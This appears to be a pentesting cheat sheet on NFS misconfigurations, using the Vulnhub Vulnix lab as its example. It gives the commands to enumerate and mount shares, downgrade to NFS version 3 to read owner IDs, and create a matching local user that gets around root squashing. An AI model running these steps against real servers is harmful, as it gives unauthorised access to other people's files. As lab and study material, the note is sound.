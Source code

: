 # Background
- Network File Share. 
- This is a service used so that people can access certain parts of a remote filesystem. If this is badly configured it could mean that you grant excessive access to users. 
- You mount the NFS folder onto a local folder of your machine to interact with it. If root squashing is enabled, then our ability to interact with the NFS is initially liminted.  However, if we can rollback the NFS version to #3, then we can get around root squashing.
  - The way NFS works with permissions: to access a locally mounted share, your UID and GID need to match the ones of the shared directory on the server.  NFS version 4 doesn't show the remote UID and GID, but NFS version 3 does show this informaiton.  So, you can just create a user with the correct username, UID, and GID on the attacker box to access a locally-mounted NFS that has root squashing enabled.
- The /etc/exports file on the NFS share lists the different share volumes available for mounting to other computers as well as configuration settings like root Squashing.

# Enumeration (Vulnhub:Vulnix)
1. Check to see what the filesystem is sharing through this service.
```
showmount -e [IP]
```
2. Create a directory location to mount the NFS file system to your box.
```
mkdir -p /[file location]/nfs
```
3. Mount the NFS to your attacker machine at the designated NFS mounting location.
```
mount -t nfs [IP]:/[target file system from #1] [attacker file system NFS location from #2] -nolock
```
  Example
  ```
  mount -t nfs 10.10.10.12:/home/vulnix /root/Boxes/Vulnix/Exploits/nfs -nolock
  ```
4. Try to access the NFS mount at the location you created in #2 on your local box.  If you're unable to access this location, then the target has correctly enabled [root_squashing](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/6/html/security_guide/sect-security_guide-securing_nfs-do_not_use_the_no_root_squash_option) so that we can't read the contents.
  - A way around this is to see if version 3 of NFS is enabled.
5. See if NFS version 3 is allowed for the NFS.
```
mount -t nfs -o vers=3 [IP]:/[target file system from #1] [attacker file system NFS location from #2] -nolock
```
6. If we can mount with NFS version 3, we should list the mounted file permissions to read the UID and GID of the system.
```
ls -ld [attacker file system NFS location from #2]
```
7. Create a new user on the attacker box with the UID and GID identified in #6.
```
groupadd --gid [GID from #6] [group name]
useradd --uid [UID from #6] --groups [group name from previous cmd] [user name]
sudo -u [user name from above command] ls -la [attacker file system NFS location from #2]
```
